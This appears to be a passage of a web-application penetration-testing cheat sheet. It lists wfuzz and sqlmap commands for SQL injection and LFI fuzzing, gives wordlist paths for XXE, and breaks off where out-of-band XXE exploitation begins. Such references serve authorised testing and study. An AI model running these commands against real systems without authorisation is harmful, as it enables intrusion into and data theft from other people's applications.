 ### SQL Injection

#### Fuzzing GET parameter

```bash
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"
```

#### Fuzzing POST parameter

```bash
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"
```

#### sqlmap GET parameter

```bash
sqlmap -u "$URL/index.php?id=1"
```

#### sqlmap POST parameter

Copy POST request from Burp Suite into `post.txt` file

```bash
sqlmap -r post.txt -p parameter
```

### Directory Traversal

#### Fuzzing LFI default file paths

```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```

#### Fuzzing LFI app specific files

Create two wordlists:

1.  Containing paths (paths.txt): ../ ../../ etc.
2.  Containing custom files related to the web technology used (files.txt): application.properties applitcation.yml

```bash
wfuzz -w paths.txt -w files.txt --hh 0 "$URL/index.php?id=FUZZFUZ2Z"
```

### XXE

#### Fuzzing XXE

Wordlist to use in Burp Suite Intruder for fuzzing XXE: `/usr/share/seclists/Fuzzing/XXE-Fuzzing.txt`

#### Out-of-Band Exploitation

1.  Create file named xxe.dtd with content:
